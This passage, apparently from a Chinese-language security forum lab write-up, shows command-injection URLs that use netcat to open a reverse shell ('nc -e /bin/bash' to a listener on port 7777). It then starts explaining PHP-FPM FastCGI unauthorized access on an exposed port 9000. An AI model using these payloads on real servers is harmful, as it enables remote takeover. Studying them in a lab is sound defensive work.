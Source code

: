 ```php
apt updateapt-get netcat
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3d425228dbaf5f3f997b7a030d9904f0a85ce4f1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3d425228dbaf5f3f997b7a030d9904f0a85ce4f1.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-88a6bc4cc4cff6c37d77d15a233457d2a19d1c12.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-88a6bc4cc4cff6c37d77d15a233457d2a19d1c12.png)

然后执行nc命令反弹

```php
http://192.168.1.10:8080/index.php?a=nc 192.168.1.10 7777
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dab75c5df62824b5613a41d9bd264aa05450effb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dab75c5df62824b5613a41d9bd264aa05450effb.png)

或者使用bash反弹也可以

```php
http://192.168.1.10:8080/index.php?a=nc%20-e%20/bin/bash%20192.168.1.10%207777
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-392298ac0fa30be616d450889107362a0e1dab4b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-392298ac0fa30be616d450889107362a0e1dab4b.png)

fpm
===

PHP-FPM Fastcgi 未授权访问漏洞，这个漏洞需要先了解何为fastcgi

> Fastcgi是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。HTTP协议是浏览器和服务器中间件进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。

**PHP-FPM**

PHP-FPM是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好传给FPM。FPM按照fastcgi的协议将TCP流解析成真正的数据。PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信。  
用户访问http://127.0.0.1/index.php?a=1&amp;b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：

> {  
> 'GATEWAY\_INTERFACE': 'FastCGI/1.0',  
> 'REQUEST\_METHOD': 'GET',  
> 'SCRIPT\_FILENAME': '/var/www/html/index.php',  
> 'SCRIPT\_NAME': '/index.php',  
> 'QUERY\_STRING': '?a=1&amp;b=2',  
> 'REQUEST\_URI': '/index.php?a=1&amp;b=2',  
> 'DOCUMENT\_ROOT': '/var/www/html',  
> 'SERVER\_SOFTWARE': 'php/fcgiclient',  
> 'REMOTE\_ADDR': '127.0.0.1',  
> 'REMOTE\_PORT': '12345',  
> 'SERVER\_ADDR': '127.0.0.1',  
> 'SERVER\_PORT': '80',  
> 'SERVER\_NAME': "localhost",  
> 'SERVER\_PROTOCOL': 'HTTP/1.1'  
> }
